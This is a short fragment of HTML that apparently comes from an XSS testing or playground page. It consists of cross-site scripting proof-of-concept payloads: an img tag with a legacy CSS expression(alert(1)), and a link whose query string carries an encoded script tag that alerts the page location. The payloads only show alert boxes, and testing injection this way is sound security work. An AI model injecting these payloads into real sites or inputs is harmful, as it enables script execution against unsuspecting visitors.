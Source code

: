 <img src="http://xssplayground.net23.net/xssimagefile2.svg" style="width:expression(alert(1))">
<a href="http://xssplayground.net23.net/xssimagefile2.svg?xss=%3cscript%3ealert%28location%29%3c%2fscript%3e" style="width:expression(alert(1))">click</a> 
